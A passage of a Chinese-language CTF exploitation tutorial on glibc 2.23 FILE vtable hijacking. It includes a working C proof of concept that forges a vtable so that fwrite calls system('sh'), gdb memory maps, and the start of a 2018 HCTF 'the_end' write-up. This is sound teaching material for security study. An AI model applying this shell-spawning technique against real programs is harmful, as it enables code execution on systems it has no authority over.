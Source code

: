 

但是在目前libc2.23版本下，位于libc数据段的vtable是不可以进行写入的。不过，通过在可控的内存中伪造vtable的方法依然可以实现利用。

```
#define system_ptr 0x7ffff7a52390;

int main(void)
{
    FILE *fp;
    long long *vtable_addr,*fake_vtable;
    
    fp=fopen("123.txt","rw");
    fake_vtable=malloc(0x40);
    
    vtable_addr=(long long *)((long long)fp+0xd8);     //vtable offset
    
    vtable_addr[0]=(long long)fake_vtable;
    
    memcpy(fp,"sh",3);
    
    fake_vtable[7]=system_ptr; //xsputn
    
    fwrite("hi",2,1,fp);
}
```

我们首先分配一款内存来存放伪造的vtable，之后修改_IO_FILE_plus的vtable指针指向这块内存。因为vtable中的指针我们放置的是system函数的地址，因此需要传递参数"/bin/sh"或"sh"。

因为vtable中的函数调用时会把对应的_IO_FILE_plus指针作为第一个参数传递，因此这里我们把"sh"写入_IO_FILE_plus头部。之后对fwrite的调用就会经过我们伪造的vtable执行system("sh")。

同样，如果程序中不存在fopen等函数创建的_IO_FILE时，也可以选择stdin\stdout\stderr等位于libc.so中的_IO_FILE，这些流在printf\scanf等函数中就会被使用到。在libc2.23之前，这些vtable是可以写入并且不存在其他检测的。

```
print &_IO_2_1_stdin_
$2 = (struct _IO_FILE_plus *) 0x7ffff7dd18e0 <_IO_2_1_stdin_>

0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
```

## 2018 HCTF the_end

[题目链接](https://github.com/N3vv/ctf-challenges/tree/master/pwn/io-file/2018-hctf-the-end)

### 基本信息

```
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  signed int i; // [rsp+4h] [rbp-Ch]
  void *buf; // [rsp+8h] [rbp-8h]

  sleep(0);
  printf("here is a gift %p, good luck ;)\n", &sleep);
  fflush(_bss_start);
  close(1);
  close(2);
  for ( i = 0; i <= 4; ++i )
  {
    read(0, &buf, 8uLL);
    read(0, buf, 1uLL);
  }
```